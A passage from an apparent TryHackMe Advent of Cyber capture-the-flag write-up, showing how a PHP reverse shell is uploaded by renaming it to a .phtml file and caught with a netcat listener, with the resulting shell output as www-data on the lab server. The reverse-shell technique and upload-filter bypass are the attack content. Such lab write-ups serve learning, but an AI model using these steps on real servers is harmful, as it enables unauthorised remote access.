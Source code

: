   **Solution:**

  *Use php-reverse-shell.php from:*

  *<https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php>*

  <img src="https://github.com/Faridbg/THM_Advent_of_Cyber/blob/main/resources/images/Task_28_%236.png" style="zoom:150%;" />

  ~~~bash
  $ mv reverse-shell.php shell.phtml
  ~~~

  <img src="https://github.com/Faridbg/THM_Advent_of_Cyber/blob/main/resources/images/Task_28_%237.png" style="zoom:150%;" />

  ~~~bash
  $ nc -nlvp 9999
  listening on [any] 9999 ...
  connect to [10.9.90.233] from (UNKNOWN) [10.10.149.88] 39568
  Linux server 4.15.0-72-generic #81-Ubuntu SMP Tue Nov 26 12:20:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
   00:17:50 up 4 min,  0 users,  load average: 1.66, 2.27, 1.11
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ ls
  bin
  boot
  cdrom
  dev
  etc
  home
  initrd.img
  initrd.img.old
  lib
  lib64
  lost+found
  media
  mnt
  opt
  proc
  root
  run
  sbin
  snap
  ~~~
